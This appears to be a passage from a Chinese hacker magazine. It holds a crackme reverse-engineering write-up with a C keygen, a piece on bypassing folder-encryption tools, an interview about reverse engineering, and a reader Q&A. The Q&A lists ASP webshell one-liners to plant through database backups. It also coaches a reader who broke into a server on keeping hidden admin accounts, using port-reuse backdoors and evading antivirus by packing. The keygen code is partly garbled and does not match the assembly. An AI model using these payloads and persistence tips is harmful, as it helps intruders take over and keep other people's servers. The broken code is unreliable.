首先将用户名的长度与常数 0x7d3 相加，然后将结果保存在（这里我的结果是 2011），之后程序以 tsrh-%d- 的格式将一个字符串输出到了 00403320 这个缓冲区（%d 是 C 语言中的格式控制字符串）。所以，注册码的形式在我的机器上是“tsrh-2011-”。程序又调用了 lstrlen 函数来获取之前压入栈的数据的长度，然后将此长度存放在 ecx 和 eax 中，最后程序返回，大家回到前文的 00401112 处继续向下看。

在 00401126 处，程序再一次调用了 GetDlgItemTextA 函数。不过这次是获得用户输入的注册码。然后程序判断注册码的前四个字节是不是 68727374（十六进制），转换成十进制后查下 ASCII 表得到这几个值分别对应 t(74)s(73)r(72)h(68)，也就是说注册码需要以 tsrh 开头，这个字符串我们在关键 call 1 里面也看到了。来到关键 call 2，之前的指令我们可以认为是花指令，因为 eax 存放的值并没有参与到注册码的运算之中。F7 跟入到关键 call 2 里面：

```asm
0040122E    56               PUSH ESI
0040122F    68 20334000      PUSH try.00403320
注册码存放地址
00401234    E8 1B010000      CALL <JMP.&KERNEL32.lstrlenA> ; 获得注册码的长度
00401239    8B3D 14354000    MOV EDI,DWORD PTR DS:[403514] ; 用户名长度给 edi，用作控制循环
0040123F    BE 01000000      MOV ESI,1 ; 指针，用于计数
00401244    8BC8             MOV ECX,EAX ; "tsrh-2011-" 的长度传给 ecx
00401246    B8 B0344000      MOV EAX,try.004034B0 ; 用户名
0040124B    0FB64406 FF      MOVZX EAX,BYTE PTR DS:[ESI+EAX-1] ; 取用户名的一个字符送入 al
00401250    04 0C            ADD AL,0C ; 加上 0x0c
00401252    0FB6D0           MOVZX EDX,AL ; 保存
00401255    83EA 11          SUB EDX,11 ; 然后减 11
00401258    03D0             ADD EDX,EAX ; 然后再加上用户名中对应位的 ascii 值
0040125A    2BD1             SUB EDX,ECX ; 再减去 "tsrh-2011-" 的长度
0040125C    33C2             XOR EAX,EDX ; 最后和用户名对应位做位异或操作
0040125E    50               PUSH EAX ; 保存结果
0040125F    68 1B354000      PUSH try.0040351B ; ASCII:"%X"，注意是大写 X
00401264    8D81 20334000    LEA EAX,DWORD PTR DS:[ECX+403320] ; 注意 + 了一个 ECX
0040126A    50               PUSH EAX ; 输出的缓冲区地址
0040126B    E8 A8000000      CALL <JMP.&USER32.wsprintfA> ; 输出
00401270    83C4 0C          ADD ESP,0C
00401273    68 20334000      PUSH try.00403320 ; 输出的结果入栈作为参数
00401278    E8 D7000000      CALL <JMP.&KERNEL32.lstrlenA> ; 获取长度
0040127D    8BC8             MOV ECX,EAX ; 保存长度
0040127F    46               INC ESI ; 地址指针加一，指向用户名下一位
00401280    4F               DEC EDI ; 计数器减 1
00401281    75 C3            JNZ SHORT try.00401246 ; 循环
00401283    33C0             XOR EAX,EAX
00401285    5E               POP ESI
00401286    C3               RETN
```

## 小结 4

可以看到这里是一个循环，所以应该注意循环结束的条件，由 00401281 处的 JNZ 指令可以看到，循环继续的条件是“不等于 0”。而这里 JNZ 指令最近的一条可以影响 ZF 寄存器的指令就是 00401280 处的 DEC EDI，所以我们可以知道，循环要执行用户名的长度次。然后需要注意的就是这个循环所执行的计算。首先程序获得 call 1 中得到的注册码的长度，然后依次取用户名中的每一个字符进行运算。为了方便论述，这里我以输入的用户名的第一个字符 H 举例进行说明：

- 1. H 的 ASCII 值是 72，十六进制 48，加上 0x0C 后再减去 0x11（将此值记为 S1）。
- 2. S1 加上 H 的 ASCII 码 0x48，再减去字符串 “tsrh-2011-” 的长度，记此值为 S2（2011 是 call 1 中根据用户名计算得到的）。
- 3. S2 与 0x48（H）做异或运算，然后以大写的形式输出到 ECX+403320 地址，ECX 为 tsrh-2011- 的长度，所以结果是紧跟在 tsrh-2011- 后面的，我的结果是 tsrh-2011-D9。
- 4. 接着程序获得了第三步中所得字符串（tsrh-2011-D9）的长度，然后保存到了 ECX。注意这里修改了 ECX 寄存器的值。因为我们在第三步中要用到 ECX 的值，所以不能忽略这里的修改。

执行完循环后得到了一个值，记此值为 T1。然后程序返回，大家继续回到前文的 0040113F 处向下看。虽然在接下来的代码中程序对 eax 做了一些操作，但代码中的这些值全部丢失，所以这些指令依然可以认为是花指令，忽略掉它们，直接来到关键 call 3：

```asm
00401287    53               PUSH EBX
00401288    BE 01000000      MOV ESI,1
0040128D    BB 80344000      MOV EAX,try.004034B0
00401292    0FB64406 FF      MOVZX EAX,BYTE PTR DS:[ESI+EAX-1]
00401297    85C0             TEST EAX,EAX
00401299    74 34            JE SHORT try.004012CF
0040129B    40               INC EAX
0040129C    BA 20334000      MOV EDX,try.00403320
004012A1    0FB65416 0B      MOVZX EDX,BYTE PTR DS:[ESI+EDX+B]
004012A6    33C2             XOR EAX,EDX
004012A8    83F8 41          CMP EAX,41
004012AB    7D 05            JGE SHORT try.004012B2
004012AD    83C0 08          ADD EAX,8
004012B0    EB F6            JMP SHORT try.004012A8
004012B2    83F8 5A          CMP EAX,5A
004012B5    7E 05            JLE SHORT try.004012BC
004012B7    83E8 03          SUB EAX,3
004012BA    EB F6            JMP SHORT try.004012B2
004012BC    83C6 09          ADD ESI,9
004012BF    BB 20334000      MOV EBX,try.00403320
004012C4    89041E           MOV DWORD PTR DS:[ESI+EBX],EAX
004012C7    83EE 08          SUB ESI,8
004012CA    83FE 10          CMP ESI,10
004012CD    75 BE            JNZ SHORT try.0040128D
004012CF    33C0             XOR EAX,EAX
004012D1    5B               POP EBX
004012D2    E8 01000000      CALL try.004012D8
比较 call，里面会设置标志位
004012D7    C3               RETN
```

上面计算的结果从第十位开始

```asm
004012C7    83EE 08          SUB ESI,8
esi=esi+0x09-0x08=esi+0x01;
004012CA    83FE 10          CMP ESI,10
循环 0x10 次：
004012CD    75 BE            JNZ SHORT try.0040128D
小于 0x10 就循环
004012CF    33C0             XOR EAX,EAX
004012D1    5B               POP EBX
004012D2    E8 01000000      CALL try.004012D8
比较 call，里面会设置标志位
004012D7    C3               RETN
```

## 小结 5

首先，还是应该注意循环结束的条件。可以看到在 00401299 和 004012CD 处都能够跳出循环。00401299 跳出循环的条件是用户名取完，004012CD 的条件是计数器为 0。下面说一下这个循环执行的运算，这里还是用我的输入为例：

- 1. 取 H 的 ASCII 0x48，然后此值加一，记此值为 C1。
- 2. C1 和 T1 的第十二位做异或运算，结果记为 C2。
- 3. 如果 C2 小于 0x41 就将 C2 加 0x08，直到 C2 大于 0x41 为止。如果 C2 大于 0x5A，就将 C2 减去 0x03，直到 C2 小于 0x5A 为止。将此步所得结果记为 C3。
- 4. 程序将 C3 输出到 T1 的第十位。

需要说明一点，虽然是从 CALL2 的结果 T1 的十二位开始取值并将结果输出到 T2 中，但是机上程序只有在第一次才用到 T1 的第十二位。从第二次循环开始，T2 的十二、十三以及后面的每一位都是 0。也就是说第二次以后的循环在地址 004012A1 所取出的值都是 0，如果还是不明白，大家可以参考注册机的源代码。

在 004012D2 处，是比较 call，在这个 call 里面会设置标志位（eax），我就不贴出代码来了。在关键 call 3 返回后（返回到上文中的 00401156 处），程序接着测试了标志位，如果位 0 的话就会跳向出错处理。

## 二、注册机

理解了程序的注册码算法，再写出注册机就不是什么困难的事情了，但是还是有几点需要注意的地方。在程序的注释中我已经加了注意的提示，具体的细节大家参考后面的解释。

```c
#include <stdio.h>
#include <string.h>

void main()
{
    int tmp,i,length;
    int n=0,m;
    char name[128]={0},ch;
    char regcode1[128]={0}; // 程序要用到两个数组，将数组的元素全部初始化为 0
    char regcode2[128]={0};

    printf("Input Your Name Plz");
    scanf("%s",&name);

    length=strlen(name);
    tmp=length+0x7d3;
    sprintf(regcode1,"tsrh-%x",tmp);
    sprintf(regcode2,"tsrh-%x",tmp);

    length=strlen(regcode1);
    m=length;
    for(i=0;i<strlen(name);i++)
```

```c
tmp=name[i]+0xc;
tmp=tmp-0x11+tmp-length; // 注意变量 length 每次循环都是不一样的

tmp=tmp+(name[i]-0xc);

n+=sprintf(regcode1+n, "%X", tmp); // 要用大写的 X 输出结果，sprintf 返回输出的字节数：2
length=strlen(regcode1); // 更新获得长度用于下一次循环

ch=regcode1[12];

for(i=0; name[i]!=0&&i<0xf; i++) { // 退出循环的条件是用户名为 0 或者计数器大于 0x0f（小于 15）
    tmp=name[i]-1;
    if(i==0) // 只有第一次循环才用到第十二个元素
        tmp=tmp^ch;
    else
        tmp=tmp*(regcode+12+i); // 注意
    while(tmp<0x41) tmp+=0x8;
    while(tmp>0x5a) tmp-=0x3;
    sprintf(regcode+n+i, "%c", tmp);
}
```

注意：只有第一次循环才用到第十二个字符，以后的循环用的是一个新的数组，并且从此数组里面再取出的元素全都是 0。开始的时候怎么弄都不对，后来仔细跟了一下才发现，每次到关键 call 3 的 004012C4 处存放 T1 的缓冲区 00403320 都被设为 0。所以这里用了一个新的数组，并且在初始化的时候将里面的元素全部设置为 0。使用注册机编译后的执行结果，更换注册码信息后程序成功注册，说明分析是没有错误的。

这次的分析就到这里了，希望此文会对你技术的提高有所帮助，如果在调试的过程中遇到什么问题，欢迎和我交流。方式嘛，到《手册》的论坛来或者……嘿嘿，cracker 需要一双会发现的眼睛才对哦；）

> 【本文介绍的相关程序已收录在本期光盘中】

**编辑点评：** 老实说，此 crackme 已经彻底完了，使用函数来定位关键点，我也觉得是一个比较快速的定位方法，希望大家也多多学习一下，毕竟程序的一些地方始终会调用函数，本文思路是很不错的，也希望各位读者能够举一反三。

## 加密 VS 反加密

豆·老登

- 从本文你可以学到：
- 加密程序与解密方法的对抗

大家好，第一次写东西，难免紧张，文中若有不当之处，还望各位多提意见！OK，闲言少叙，言归正传，这次我给刚刚入门的朋友们带来了一篇很简单却很实用的文章。希望看完后大家动手实践一下，加深了解哦！

大家的硬盘中、U 盘中、MP3 中，什么什么中的，可能多多少少都藏有一些对自己或者单位很重要的文件或图片吧。于是，针对移动设备存储的文件夹加密软件应运而生了！各种各样的文件夹加密器跟花绣乱坠地出现在网络中，纷纷号称：“加密大师”、“加密专家”之类，可是加密后的效果真如它们宣传的那样吗？钻石金刚般的表面后面，其实经不住轻轻的一击！OK，想要绕开表面现象的，跟我来！我们首先从加密手法比较简单的开始 K.O。

## 一、一招制敌

首先出场的是 MagicFolder（新木魔法文件夹），此程序在使用说明中这样写：加密的文件夹，即使在纯 DOS 模式下都无法打开、复制、无法删除、无法移动、无法重命名，再大的文件夹，加密都在瞬间完成！

首先我们来测试一下这款加密软件的效果，首先我在 M 盘下建立一个名称为 test 的文件夹，里面放入一些文件。然后按照这款软件提示的加密步骤来对该文件夹加密，两次输入自定义密码后加密瞬间完成，加密速度果然超快！

这时我们看到，刚才的 M:\test 已经变成了 M:\test. 了，仔细的人可能已经看出不同了，加密后文件夹名称后面多了一个点，这时我们已经无法打开该文件夹了，如图 1。

至此，此软件的加密步骤已经完成了！可是这样加密的文件夹算是安全了吗？真的是即使在纯 DOS 模式下都无法打开、无法复制、无法删除、无法移动、无法重命名了吗？当然不是！其实我们根本就用不着去 DOS 下，在窗口环境下，无需密码便可以轻松地获取文件夹内的所有文件。

其实它利用的只是一个 Windows 下文件夹的重命名漏洞，具体是什么漏洞我这里就不说了，不知道的看官，翻翻以前的手册。要想得到它里面的东西，易如反掌。我们打开“开始”菜单，找到“运行”输入加密后的文件夹所在路径，这里我输入：“M:\test..\”。注意这里在加密的文件夹名称后要多加上“..\”。确定后，嘎嘎嘎……发现什么了？赶紧复制出来吧！加密的文件夹被打开了，里面的文件乖乖地躺在那里了。里面还有个 jmm 后缀的文件，用记事本打开看后竟然是加密时设置的明文密码！对搞社工的人来说，有点用处哦，如图 2。

测试完毕后我们发现，它的加密手法实际上就是将要加密的文件转换成 Windows 无法读取的文件夹，利用 Windows 文件夹重命名漏洞而已！这也吹嘘得那么玄乎。

OK，第一个简单加密的软件被“运行”一招致命，K.O 了。下面我们再来看稍微有些难度的对手吧。


## 二、前后夹击

接下来是另一个强悍的对手：**高强度文件夹加密大师**。它的介绍中是这样写的：“该软件使用的加密方式安全性极高，达到了文件夹加密安全性的顶峰！用任何工具都无法解开！设置运行密码，让软件只允许您一人使用。强大的防删除功能，让破坏者无从下手。”效果真是这样的吗？我们同样用“M:\test”来试验一下它的效果，按照加密步骤输入密码后，test 再次被加密了，可是这次不同的是它的名字没有改变，只是图标发生了改变，以便用来识别是被加密过的。双击打开后，发现里面的文件全部消失无踪，只有文件夹加密大师在里面，双击之后要求输入密码解密。我们检查一下加密后的文件夹容量，知道文件“就在此夹中，加密不知处”，如图 3。


我们看看它给我们隐藏了什么？打开 CMD，转至该文件夹目录下输入命令：`dir /A`，于是所有的一切便展现在我们眼前了。可是奇怪的却仍然没有我们要寻找的文件，但却发现多了个文件夹目录“Thumbs.dn”。看来秘密就藏在这里面了！继续跟进，转到 Thumbs.dn 的目录下，再次用 `dir /A` 查看，被加密后的文件目录出现了！在这里我们可以用“`type [文件名] >> [路径\新的文件名]`”命令来把加密后的文件重新定向输出出来，如图 4。


例如本例中我将加密后的文件 1.mem 输出到 M:\1.exe（输出后的后缀，自行改动成符合它的程序为止），就这样写：`type 1.mem >> M:\1.exe`。当然，除了我上面讲到的 CMD 下操作外，还有一种方法更加简便和直观。那就是在 M 盘下新建一个空的 RAR 压缩包，用它进入到加密文件夹，可以直接将加密文件拷贝出来。至此，这个所谓的达到了文件夹加密安全性顶峰的、用任何工具都无法解开的对手也被我们用两只拳头击倒了！实际上该软件的加密手段是这样的：将要加密的文件夹移动至一个经过特殊命名的文件夹内，此文件夹利用 Windows 的文件识别 ID 改成系统文件格式，实现跳转伪装。剩下的对于更是狡猾、凶狠，可以说是集合了前两位对手的所有优点，又有自己的新招。我们来看看是怎么不借助任何工具一步一步击败它的吧！

## 三、巧反玄机

最后我们测试的这款软件就是“便携式文件夹加密器”，以下是它官方的说明：

- 1. 软件采用最新的加密技术，有力保障您的数据安全
- 2. 引用双重安全检测机制，保证加密解密畅通无阻
- 3. 加密后，在被加密的文件夹下将生成一个解密程序，您可以使用解密程序方便地对文件进行解密或重加密
- 4. 免费、绿色。体积小也是本软件的一大特色。软件大小仅为 300 多 K
- 5. 最新支持 VISTA 版本！

看起来也是不错的一款加密软件，但是到底功能怎么样，加密后数据的安全性能有多高，看完测试后就明白了。依旧是 M:\test，依旧按软件提示的加密步骤一步一步来加密。操作很简单，与“高强度文件夹加密大师”基本无二，只是界面漂亮了很多！以至于刚开始以为它是一个仿“高强度文件夹加密大师”的没有新意的软件。可是在后来的进一步研究中，才发现它独有的玄机所在。我们看到加密后的文件夹，与“大师”加密后的形式很像，改变了文件夹的图标，隐藏了里面的文件，只留有一个加密程序用来解密使用，打开后提示输入解密密码，如图 5。


这一点与“大师”如出一辙，难道加密的方式也一致？有了上面的经验，我们这里直接在 CMD 下用 `dir /A` 来查看加密文件夹的目录：果然！里面也多出了个“Thumbs.dn”目录，原来是相互抄袭的加密手法啊，看来只是“改头换面，换汤不换药”而已啊！如图 6。


既然这样，我们来用破解“大师”的方法来对付它，应该是手到擒来了哦！继续，转到“Thumbs.dn”目录下去找找被隐藏的文件吧！但结果却大出意料之外，这里并没有像在“大师”那里见到的隐藏文件，而是仅仅又多了一个名为“SYS”的文件夹。看来被隐藏的文件就在这个“sys”里面了吧！再继续跟进，穿了“马甲”就不认识你了吗？用“`cd sys`”命令转到 sys 目录下看看。但是执行的结果却让我大跌眼镜！回显为“系统找不到指定的路径”，如图 7。


这是怎么回事？难道“sys”根本就不存在吗？还是它用了什么新的方法避开了 CMD 下的查看？一向无敌的 CMD 在这里栽了个跟头，被困住了！如果“sys”目录不存在的话，为什么会在上面的命令下显示出来呢？看来它是一定存在的！但是要是存在的话，为什么跳转不进去呢？提示找不到路径。我们想想看，路径不对？“M:\test\Thumbs.dn\”没有问题啊，难道是目录名称粗心输错？“sys”只有三个字母，两个还相同，再粗心也不会输错了的！又重新试了 N 次，结果一样！难道就这样放弃？NO！只要它存在，我就一定找得到它的。苦想中忽然想起在以前手册中看到过利用输入法全角空格来命名文件夹、制作隐藏文件夹的方法。难道这个“sys”骗了我的眼睛？我们来试试看。可是我们如何知道它在 sys 这三个字后面加了几个全角空格呢？这时我们采用一个 CMD 下的，也就是键盘上的“Tab”键。我们只要在 cd 后面输入一个首字母 s 再按一下“Tab”键，它便智能化地补全了该目录名“sys”。回车后我们发现 sys 后果然跟有全角空格啊，前面的提示符变成了“M:\test\Thumbs.dn\sys　>”，如图 8。


这才脱掉伪装的“马甲”，再次在它的目录下查看文件，dir 后，依旧没有见到被隐藏文件的影子，但是我们却看到了一个很熟悉的身影，那就是第一个出场的文件名“1.”的身影，我们在这里发现了一个名为“system.”的特殊文件夹。到这里相信大家都知道应该怎么办了吧？既然所有隐藏文件的真实路径已经完全暴露了，我们就用先前的第一招来看看它。首先在 CMD 中标记“M:\test\Thumbs.dn\sys　>”，这样我们就不用去管 sys 后面的空格数了，然后在“运行”中粘贴该地址，将“>”号换成“\”号，并在其后输入新发现的 `system.\`。回车后窗口出现了，在里面的“Thumbs.db”文件夹中，所有的被隐藏文件都静静地躺在那里了，复制出来便可以了，如图 9。


OK，这个难缠的对手，在一番艰难的较量之后也被 K.O. 了。

它的加密功能比起前面的两个可以说是大有长进！但还是存在不小的问题，说得再透彻点就是集文件夹重命名 BUG、ID 伪装、全角空格视觉欺骗于一身的技术。只要稍微花点功夫便能搞定了！

## 四、写在最后

其实，网络上的有好多文件夹加密器都可以用以上的方法来攻克的，仅举三例来说明一下。最后想说的是，大家不要被有些软件的宣传噱头吓住，而不敢去研究和揣摩它。我觉得要用质疑的态度去面对一些所谓的权威，说不定会有新的发现哦。这也就是我们的敢于挑战、敢于探索、敢于疑问的精神！我的 ID 是“夜翼”，欢迎大家在坛子上和我交流！

> 【本文介绍的相关程序已收录在本期光盘中】

## 编辑点评

本文好像跟逆向分析没什么联系，但是对于加密与解密来说，始终还是在一个范围内。从作者的介绍来看，目前网络上的加密软件也并不是如他们说明的那样厉害，关键是需要我们细心分析，加密与解密始终是一场没有硝烟的战争。


I0086：kanxue，你好！很高兴你能接受本刊的采访，开始前能否跟大家简单介绍一下自己与你所建立的看雪学院呢？

kanxue：首先感谢那些一直关心和支持看雪学院的朋友！看雪学院创建于 2000 年，致力于软件安全技术的研究。由于当时国内这方面知识体系比较缺乏，站点的定位非常好，因此论坛很快聚集了国内外安全界的各方面高手，成为国内研究软件安全技术的一个基地。看雪论坛只讨论相关的安全技术，我们不鼓励使用盗版软件，更不会为盗版软件的人提供帮助。这么多年来论坛一直致力于技术交流，欢迎对逆向、系统底层、软件安全技术感兴趣的朋友来交流。可能有不少朋友会问，为什么取看雪这个名称？由于当时 QQ 取昵称时，外面正在下雪，故随意取了个名字“看雪”，建立的站点就随意取名为“看雪学院”。

I0086：什么是软件的逆向工程？

kanxue：逆向工程的起源自然是在编译器技术的发展以后。据说在最早期，程序员之间互相交流、传阅源代码是极其普通的事情。后来，随着商业利益的驱使，源代码交流开始减少，源代码作为公司或个人的产权，被加以严密保护。于是崇尚自由的 Hacker 精神，导致部分的程序员转去研究如何“将编译后的二进制代码反推，得到源代码”。这个活动一直延续了下来。现在的逆向工程，其实目的就是为了再利用。比如，个人可以学习别人的编程技术及技巧，公司可以窥探别人的商业软件秘密，或开发与之兼容的软件。

I0086：你认为逆向工程合法吗？

kanxue：软件“逆向工程”在什么情况下合法，什么情况下非法，国内外尚无定论，我国尚无明确的法律规定。因此，只要个人学习研究之用，而不将自己的成果应用于商业用途，研究逆向技术并不违反我国现行法律或行政法规。

I0086：当前不少人热衷于解密技术学习，你是怎么看待这一现象的呢？

kanxue：软件的加密和解密是个经久不衰的话题。而抛开其中的版权因素不谈，加密技术和解密技术本身都是很令人着迷的。许多朋友正是由这一技术激发了自己的学习热情，从解密慢慢走向其他方面，研究系统底层、系统漏洞、密码学等。一般所谓的“软件解密”只是逆向工程中非常初级的一小部分，希望更多人关注其他方面。从个人成长角度来说，研究逆向技术有助于掌握一些系统底层知识。作为一个合格的程序员，除了掌握需求分析、设计模式等，如能掌握一些系统底层知识，熟悉整个系统的底层结构，对于平时自己工作、设计软件是有好处的。

I0086：软件加解密如何入门？

kanxue：以前由于这方面资料比较匮乏，所以解密技术给人的感觉是很高深的学问。解密也是学习技术的一种方式，由于其满足人的猎奇心理，刚入门时会让人沉迷进去。我是不赞成为了解密一个软件而专门去学逆向技术，而是希望通过这一技术，提高自己的各方面技能。学习这一技术的必要条件是一定要懂汇编知识，另外，掌握一门高级语言是最好的，如 C 语言。再阅读一下 Charles Petzold 著的《Windows 程序设计》，有了上面这些基础，再结合一些解密基础文章，就能入门了。

I0086：现在有些人是带着商业目的学习的，你是如何看待商业破解呢？

kanxue：大多数人是为兴趣而学习这一技术，也有部分人带着商业目的来学习的。如果将自己的研究成果从事商业目的，导致他人的商业软件产品因此受到损失，这样的行为不但有违商业道德，而且可能会有法律问题产生。

I0086：我想有很多软件作者也会苦恼自己的软件经常被破解，对软件作者来说，你有什么好的安全建议呢？

kanxue：软件的开发人员要重视软件安全，在设计初期就制定出好的安全架构，开发者本人也掌握一些解密技术，知己知彼，才能设计出好的保护产品。软件发布前，可以用专门的加密产品保护一下。比如一些加密壳等，但从效果来说，强度比较好的当属于虚拟机保护软件类，如 VMProtect 等，设计了好的算法，用 VMProtect 处理一下，能大大提高保护的强度。论坛也在组织团队，开发安全产品，适当的时候，论坛会推出软件安全产品服务于社会。

I0086：作为个人站点，组织出版了不少书籍，这是比较少见的，能否谈一下呢？

kanxue：看雪论坛汇集众多高手，有这些人才资源优势，再加上市场没有一本加解密相关的图书，因此我们就走上了出书之路，在 2001 年出版了《加密与解密——软件保护技术及完全解决方案》，次年在台湾出版了繁体版。这本书第一次把“高级”的技术平民化，填补了市场的空白，之后我们又推出了《加密与解密（第二版）》和《软件加密技术内幕》。2007 年组织论坛朋友翻译了《程序员密码学》。2008 年我们也有两本新书即将上市，大家可以留意一下我的站点。论坛以后将继续利用自己的优势，会组织论坛会员开展一些图书的出版项目。

I0086：从论坛招聘到论坛组织的活动，看出来不少公司企业很关注看雪论坛啊？

kanxue：当今公司发展，人才是起到至关重要的因素。现今大学计算机教育与实际有些脱节，一些公司的安全人才，招聘后，还得花几个月的时候去培训。而看雪论坛汇集的软件安全相关人才可以直接启用，无疑是很受相关公司欢迎的，因为论坛上的朋友都是对这技术感兴趣的，并且招聘后就可直接使用，无须要更多的专业培训。因此不少公司都很关注论坛上的技术人才。论坛的交流建立在为推进软件安全技术进步为起点的，建立的几年来，光通过我为企业推荐的就有数十人，还有更多的论坛交流者将学到的东西用于了自己的实际工作中，这一部分就无法统计了。

经过几年来大家的共同努力，我们于去年开始了企业合作，2008 年举办的“看雪论坛·珠海金山 2007 逆向分析挑战赛”、“看雪论坛·上海微软技术交流会”等，其目的就是为了更好加强软件安全技术的进步，同时为更多的人创造工作机会。

I0086：近期，看到看雪论坛在宣传培训广告，是不是意味着论坛尝试走培训之路？

kanxue：由于看到看雪论坛的实力，电子工业出版社和我们论坛合作共同开展培训课程。这也是论坛向外的一个新的尝试，如果合作成功，论坛将有经费发展自身，将会进入一个新的阶段。

I0086：最后我想一定有很多朋友想与你联系，共同探讨软件安全或者向你请教，可以公布一下你的联系方式吗？

kanxue：很高兴与大家认识，有相关的技术问题或心得欢迎到看雪软件安全论坛（bbs.pediy.com）来交流，这里技术气氛非常的好，不但能学到技术，还能认识到兴趣相投的朋友。

### 采访后记

通过这次采访，了解到 kanxue 其实是一个很和善的人，他所建立的看雪学院已经走过了很多个年头，的确不容易。研究软件安全和这类技术，确实对提高自身成长有帮助，特别是对于那些在校求职的朋友，多掌握一门技能，更容易找到一份好工作。


Q：服务器里的网站总被挂马，请问有什么好办法可以防止？谢谢！

A：按照你的说法应该是虚拟主机，首先必须从网站的页面安全做起，坚决杜绝一切可能的 SQL 注入漏洞、上传漏洞等。尽可能保证所有的上传目录不允许解析 asp、asa 等脚本文件。同时也要做好服务器安全配置，例如删除可能被 webshell 利用的组件和分配 IIS 用户的目录权限，适当地把可能存在提权缺陷的软件进行更新，例如 Serv-U 等，因为旁注攻击都是利用一个网站的漏洞从而占据整个服务器。

我建议你在一个 web 目录放置一个 webshell，然后看看是不是哪些组件可以被利用，就进行修补，当然 FSO 这样的组件我们迫不得已是不能随便更改的。

解决了脚本漏洞和服务器设置，同时也要安装 ARP 防火墙进行有必要的防范；现在很多人都是利用 ARP 欺骗进行挂马，导致很多管理员检查所有脚本都无济于事，个人推荐 AntiARP 和 360 安全卫士。

当然我只能给你一个笼统的说法，因为脚本漏洞需要自己检测和利用搜索引擎等来发掘，而服务器安全配置我想一般的管理员都是信手拈来的。

利用 scanwebshell 或者雷克图网站助手等页面分析器找出 webshell 源头，然后修复对应网站的漏洞。最好找一个有能力的高手做一个技术检测。最后我给你推荐一款颇有口碑的服务器安全工具，是专门对 webshell 进行检测和监控的：网站安全伞，下载地址如下：

http://www.3800hk.com/soft/aqfh/17973.html

原文链接：http://www.nohack.cn/bbs/thread-73559-1-1.html

Q：是不是所有木马程序都会显示在进程里？
今天下了个外挂，卡巴一直报毒说是木马，但是迅雷检测不是，而且压缩包里有那个公司的担保条款什么的，我怀疑也不是木马。卡巴一直杀的都是这个外挂的运行程序，后来提示说是 Trojan 相关的木马，问我删不删？我把卡巴关了才能运行那个外挂，而且在管理器进程里找来找去就只有外挂这个程序，没有其他我认识的木马，也没有 Trojan 什么的，请问是不是所有的木马程序运行时都会在进程里有显示？

A：并不是所有的木马程序都会显示在进程里。隐藏木马的方法常见的有 rootkit 和 DLL 插入进程，这样的话你利用 Windows 的任务管理器是检测不出任何端倪的。卡巴的主动防御一般能检测到 rootkit，但是对线程插入就无能为力了。你的错误理解在于你过于相信 Windows 自带的任务管理器，建议你使用 IceSword 这样的安全工具，能直接显示出 rootkit 进程和对 DLL 模块进行列举。

对于外挂，首先有可能是卡巴误报，因为外挂和黑客工具被查杀是很正常的事情。其次你的软件自身可能捆绑了附加数据，建议你看清楚是不是捆绑数据被查杀。强烈建议使用 Safe System Monitor 这款工具，也能在程序自身运行后对附加数据进行判断，并对注册表的修改等进行预报，这样就能防患于未然了。

原文链接：http://www.nohack.cn/bbs/thread-73522-1-1.html

Q：请教！如何修改 COOKIES？现在我知道对方管理员的账号和 MD5 加密过的密码，如何进行 COOKIES 修改管理员权限？是不是所有的网站都有一个 COOKIES？我用网上流传的 IECookiesView 查不到相应的 COOKIES。

A：一般来说 cookies 就是一个缓存的身份验证，基本用于与网站交互信息的常规保存和保留。修改 cookies 的工具有很多，例如 domain 自带的浏览器、桂林老兵出品的 WebTool 等。按照你的情况，知道了管理员的账号和 MD5 密码，想进行 cookies 欺骗进入管理员权限，你可以先用修改 cookies 的浏览器登录后，修改你的信息来试一下。

一般的网站现在都摒弃了 cookies 而采用 session 验证，所以 cookies 欺骗很少能被利用了。实在不行就爆破一下它的 MD5 密码吧，现在反查询 hash 的网站数据库已经很大了。

原文链接：http://www.nohack.cn/bbs/thread-73224--1-1.html

Q：DB 权限备份不出一句话？确定了权限是 DB 的，也找到了网站所在根目录，但用暗组版 GetWebshell 和备份数据库都会备份不出来一句话！这种情况是为什么？怎么解决？

A：暗组的 GetWebshell 使用的是 log 备份，你可以在分步操作的时候注意一下浏览器返回的信息，基本上无法完成备份的原因不外乎权限问题和语句错误，适当转义一下你的备份代码是有必要的。一般情况都是第四步出错，这时候你可以修改你的插入代码，直到返回成功，例如：

```text
a).<%25Execute(request("|"))%25>
b).<%Execute(request("|"))%>
c).%><%execute request("|")%><%
d).<script language=VBScript runat=server>execute request("sb")</script>
e).<%25Execute(request("|"))%25>
```

当然你也可以使用 eval 的一句话，因为被杀的可能性是存在的。第四步也有可能是去掉了 dbo 的 create 权限，那就只能放弃利用备份获取 shell 了。放弃了日志备份操作，那么就只能利用你得到的目录获取后台，然后 SQL 查询数据库信息获取管理密码后在后台想办法了。

原文链接：http://www.nohack.cn/bbs/thread-73149-1-1.html

Q：抓到肉鸡后的问题

小弟刚刚入道，通过注入一个防护不好的网站拿到了管理员权限，添加了一个自己的用户后用 3389 能连上。但是该网站管理员每天都手动重启服务器一次，他登录时发现我用新建的用户登录过，便删除了那个用户。我看到他的服务器上装有诺顿的杀软，因此不愿意上传木马，特求助各位有没有什么不用马就能长久控制这台服务器的办法，小弟先行谢过了！

A：问题很长，根本在于如何建立一个不容易被发现的系统管理组用户。首先不推荐用 `$` 这样的方式隐藏，因为几乎 99% 的管理员是直接去查用户信息，而不会去使用 `net user` 这样的命令。

首先你可以使用系统本身包含的低权限用户，例如 sqldebugger、supportxxx 等已经存在的用户，提交到管理员用户组。一般可以骗过那些水平比较低的服务器管理员。我们个人还是建议用 clone，被发现的可能性不大。

最后我给一下自己的见解，如果你的肉鸡的确肥美可餐，还是建议上传后门或者远程控制。当然使用隐藏性高、端口复用类型的正向连接类后门，存活概率相当大。管理员在查不出任何异常并在网络连接状态里看到有 80 端口的主动连接，基本不会起疑心，本身就是 Web 服务器嘛！

至于诺顿杀毒软件，其实免杀的方法比起其他杀软更为简单，不需要太多的免杀知识，加壳加花基本就可以躲过了，多学一点知识不是更好吗？何况《黑客手册》上的免杀文章，那都是一个字：牛！

原文链接：http://www.nohack.cn/bbs/thread-73091-1-1.html

## 29 号信箱

## 黑手·建议

城市 / 株洲  
论坛 ID / htpwuf1  
邮件 / 199872609@qq.com

**→对于杂志内容，你有什么建议？**

我觉得各个版块内容应趋于平衡，还有就是“代码加编”中应该要有各种语种的文章，满汉全席就是为了解决“众口难调”问题的。

城市 / 湖北咸宁  
论坛 ID / 83591349  
邮件 / chen20081988@126.com

**→对于杂志内容，你有什么建议？**

